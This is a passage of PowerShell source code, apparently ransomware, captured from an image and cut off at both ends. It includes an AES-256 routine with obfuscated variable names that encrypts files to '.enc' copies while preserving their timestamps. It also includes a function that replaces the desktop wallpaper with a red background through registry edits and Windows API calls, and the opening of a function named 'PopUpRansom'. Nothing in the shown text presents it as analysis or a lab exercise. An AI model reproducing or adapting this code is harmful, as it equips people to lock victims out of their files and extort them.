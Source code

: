 ```powershell
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
         $File = Get-Item -Path $Path -ErrorAction SilentlyContinue
         if (!$File.FullName) { break }
         $plainBytes = [System.IO.File]::ReadAllBytes($File.FullName)
         $outPath = $File.FullName + ".enc" }
      $encryptor = $n9ibn.CreateEncryptor()
      $encryptedBytes = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
      $encryptedBytes = $n9ibn.IV + $encryptedBytes
      $n9ibn.Dispose()
      if ($Text) {return [System.Convert]::ToBase64String($encryptedBytes)}
      if ($Path) {
         [System.IO.File]::WriteAllBytes($outPath, $encryptedBytes)
         (Get-Item $outPath).LastWriteTime = $File.LastWriteTime }}
  End {
      $m95I.Dispose()
      $n9ibn.Dispose()}}
function RemoveWallpaper {
$code = @"
using System;
using System.Drawing;
using System.Runtime.InteropServices;
using Microsoft.Win32;
namespace CurrentUser { public class Desktop {
[DllImport("user32.dll", SetLastError = true, CharSet = CharSet.Auto)]
private static extern int SystemParametersInfo(int uAction, int uParm, string lpvParam, int fuWinIni);
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern int SetSysColors(int cElements, int[] lpaElements, int[] lpRgbValues);
public const int UpdateIniFile = 0x01; public const int SendWinIniChange = 0x02;
public const int SetDesktopBackground = 0x0014; public const int COLOR_DESKTOP = 1;
public int[] first = {COLOR_DESKTOP};
public static void RemoveWallPaper(){
SystemParametersInfo( SetDesktopBackground, 0, "", SendWinIniChange | UpdateIniFile );
RegistryKey regkey = Registry.CurrentUser.OpenSubKey("Control Panel\\Desktop", true);
regkey.SetValue(@"WallPaper", 0); regkey.Close();}
public static void SetBackground(byte r, byte g, byte b){ int[] elements = {COLOR_DESKTOP};
RemoveWallPaper();
System.Drawing.Color color = System.Drawing.Color.FromArgb(r,g,b);
int[] colors = { System.Drawing.ColorTranslator.ToWin32(color) };
SetSysColors(elements.Length, elements, colors);
RegistryKey key = Registry.CurrentUser.OpenSubKey("Control Panel\\Colors", true);
key.SetValue(@"Background", string.Format("{0} {1} {2}", color.R, color.G, color.B));
key.Close();}}}
try { Add-Type -TypeDefinition $code -ReferencedAssemblies System.Drawing.dll }
finally {[CurrentUser.Desktop]::SetBackground(250, 25, 50)}}
function PopUpRansom {
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")  
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") 
[void] [System.Windows.Forms.Application]::EnableVisualStyles() 
```